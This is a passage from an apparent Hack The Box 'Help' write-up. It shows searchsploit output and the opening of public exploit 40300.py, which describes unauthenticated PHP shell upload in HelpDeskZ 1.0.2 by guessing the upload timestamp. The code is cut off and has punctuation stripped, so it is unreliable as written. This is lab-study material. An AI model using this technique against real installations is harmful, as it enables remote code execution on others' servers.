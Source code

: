 Running <b>HelpDeskZ</b> through <b>searchsploit</b> reveals a file upload vulnerability in the latest release. The details can be seen below.

<img src="/assets/images/ctfs/htb-help/searchsploit.png" alt="" class="center" alt="" class="center">

```bash
root@kali:~# searchsploit -x exploits/php/webapps/40300.py
```
<b>40300.py</b>
```py
'''
#
# Updated Exploit Provided by Drew Griess
#
# Exploit Title HelpDeskZ = v1.0.2 - Unauthenticated Shell Upload
# Google Dork intextHelp Desk Software by HelpDeskZ
# Date 2016-08-26
# Exploit Author Lars Morgenroth - @krankoPwnz
# Vendor Homepage httpwww.helpdeskz.com
# Software Link httpsgithub.comevolutionscriptHelpDeskZ-1.0archivemaster.zip
# Version = v1.0.2
# Tested on
# CVE

HelpDeskZ = v1.0.2 suffers from an unauthenticated shell upload vulnerability.

The software in the default configuration allows upload for .php-Files ( !! ). I think the developers thought it was no risk, because the filenames get obfuscated when they are uploaded. However, there is a weakness in the rename function of the uploaded file

controllers httpsgithub.comevolutionscriptHelpDeskZ-1.0tree006662bb856e126a38f2bb76df44a2e4e3d37350controllerssubmit_ticket_controller.php - Line 141
$filename = md5($_FILES['attachment']['name'].time())...$ext;

So by guessing the time the file was uploaded, we can get RCE.

Steps to reproduce

httplocalhosthelpdeskzv=submit_ticket&action=displayForm

Enter anything in the mandatory fields, attach your phpshell.php, solve the captcha and submit your ticket.

Call this script with the base url of your HelpdeskZ-Installation and the name of the file you uploaded

exploit.py httplocalhosthelpdeskz phpshell.php
'''
import hashlib
import time
import sys
import requests
import datetime

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv)  3
    print Usage {} [baseUrl] [nameOfUploadedFile].format(sys.argv[0])
    sys.exit(1)

```
